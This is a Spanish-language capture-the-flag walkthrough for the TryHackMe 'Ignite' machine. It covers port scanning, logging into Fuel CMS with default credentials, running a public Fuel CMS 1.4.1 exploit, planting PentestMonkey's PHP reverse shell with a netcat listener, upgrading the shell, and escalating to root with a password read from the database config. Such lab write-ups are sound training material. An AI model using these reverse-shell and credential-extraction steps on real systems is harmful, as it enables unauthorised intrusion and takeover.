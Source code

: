 # Guía de Explotación - TryHackMe Ignite

## Reconocimiento

Iniciamos con un escaneo de Nmap para identificar los puertos abiertos, las versiones de los servicios en ejecución y otra información relevante:

```bash
nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA
```

### Explicación de los parámetros:

- `-T4` -> Define la velocidad del escaneo.
- `--min-rate=10000` -> Envía al menos 10,000 paquetes por segundo.
- `-p-` -> Escanea todos los puertos disponibles.
- `-A` -> Activa un escaneo agresivo para obtener más información.

El escaneo muestra que el único puerto abierto es el **80/tcp**, donde corre un servidor web Apache con Fuel CMS. Además, `robots.txt` revela que la página de inicio de sesión del CMS se encuentra en `/fuel`.

## Explotación de la Web

Accedemos al sitio web a través del puerto 80 y probamos las credenciales predeterminadas `admin:admin` en la URL de acceso:

```bash
http://DIRECCION_DE_LA_WEB_ATACADA/fuel
```

El inicio de sesión es exitoso, lo que nos permite acceder al panel de control.

En la opción **"Click here for your site documentation"**, descubrimos que la versión instalada es **Fuel CMS 1.4**.

Investigamos vulnerabilidades para esta versión y encontramos un exploit para Fuel CMS 1.4.1, el cual descargamos y ejecutamos:

```bash
python3 50477.py -u http://DIRECCION_DE_LA_WEB_ATACADA
```

A continuación, descargamos una reverse shell en PHP desde PentestMonkey:

```bash
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
```

Descomprimimos y editamos el archivo `.php`, reemplazando la IP y el puerto:

```php
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

Levantamos un servidor web en nuestra máquina atacante:

```bash
python3 -m http.server 80
```

Desde la máquina comprometida, descargamos la reverse shell y ponemos en escucha nuestro puerto con Netcat:

```bash
nc -nlvp PUERTO_CONFIGURADO
```

Ejecutamos la reverse shell accediendo desde el navegador:

```bash
http://DIRECCION_DE_LA_WEB_ATACADA/NOMBRE_ARCHIVO_REVERSE_SHELL
```

## Comprometiendo la Máquina

Si el ataque es exitoso, obtenemos acceso como `www-data`:

```bash
whoami
```

Para mejorar la interactividad de la shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL> + Z
stty raw -echo; fg
```

Buscamos la primera flag dentro del directorio home del usuario comprometido:

```bash
cat flag.txt
```

## Escalada de Privilegios

Revisamos la configuración de Fuel CMS en:

```bash
fuel/application/config/database.php
```

Extraemos la contraseña con:

```bash
cat database.php | grep "pass"
```

Probamos la contraseña obtenida para elevar privilegios:

```bash
su -
```

Usamos la contraseña `mememe` y obtenemos acceso como `root`.

Finalmente, buscamos la flag final:

```bash
cat /root/root.txt
```

## Conclusión

¡Máquina comprometida con éxito! 🚀

